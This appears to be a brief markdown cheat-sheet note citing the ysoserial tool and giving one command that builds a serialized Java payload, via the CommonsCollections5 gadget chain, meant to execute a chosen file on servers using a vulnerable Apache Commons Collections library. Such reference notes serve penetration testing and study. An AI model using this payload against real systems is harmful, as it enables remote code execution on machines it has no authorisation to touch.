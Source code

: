 ### source
https://github.com/frohoff/ysoserial  

### generate serialized object that executes exe file for apache commons collections vulnerable library
```
java -jar ysoserial-master.jar CommonsCollections5 <file>.exe > <resultFile>.ser
```

